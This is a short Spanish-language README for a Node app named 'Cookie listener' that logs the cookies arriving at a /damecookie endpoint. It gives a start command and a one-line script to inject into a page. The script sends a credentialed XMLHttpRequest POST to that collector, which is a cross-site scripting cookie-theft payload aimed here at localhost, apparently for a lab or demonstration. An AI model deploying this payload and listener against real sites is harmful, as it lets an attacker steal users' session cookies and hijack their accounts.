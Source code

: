 # Cookie listener
Esta app loguea lasn cookies de los requests que recibe en `/damecookie`

## Correr app
`npm start`

## Inyectar script
`var xhr = new XMLHttpRequest();xhr.open("POST",'http://localhost:4000/damecookie');xhr.withCredentials = true;xhr.send()`
